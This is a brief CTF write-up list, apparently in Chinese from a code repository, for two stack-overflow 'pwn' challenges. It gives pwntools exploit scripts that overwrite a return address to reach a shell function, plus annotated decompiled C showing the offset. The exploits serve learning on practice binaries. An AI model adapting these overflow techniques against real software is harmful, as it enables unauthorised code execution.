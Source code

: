 动态调试见 xctf_pwn_stack2.pdf。


# Write Up list

## overflow
### pwn1 长度溢出覆盖ebp 输入数字覆盖返回地址
注意输入类型

```py
from pwn import *
sh = process('./pwn1')
elf = ELF('./pwn1')
addr = elf.symbols['shell_func']
sh.sendline(str(0x88+4))
sh.sendline(str(addr))
```

```c
void vuln()
{
  int rep_index; // [esp+8h] [ebp-90h]
  int i; // [esp+Ch] [ebp-8Ch]
  char arr_ch[128]; // [esp+10h] [ebp-88h]
                                       // 1. ebp - 88, ret位置为 88+4

  memset(arr_ch, 0, 0x80u);
  puts("id:");
  scanf("%d", &i);                     // 2. 输入i会作为数字, 不用转成二进制
  printf("you have input id:%d\n", i); 
  printf("id's value(hex) is:%x\n", arr_ch[i]); // %x为16进制, 输入返回地址 覆盖ebp
  puts("replace:");
  scanf("%d", &rep_index);             // 3. 替换为shell_func的地址
  printf("the value has replace to:%x\n", rep_index);
  arr_ch[i] = rep_index;
}
```

### pwn2 长度溢出覆盖ebp 输入数字转字符串覆盖返回地址
注意输入类型

```python
from pwn import *

file = './pwn2'

sh = process(file)
payload = 'a' * (0x80 - 0x10)
sh.sendline(flat(payload, pack(1500)))
sh.interactive()
```
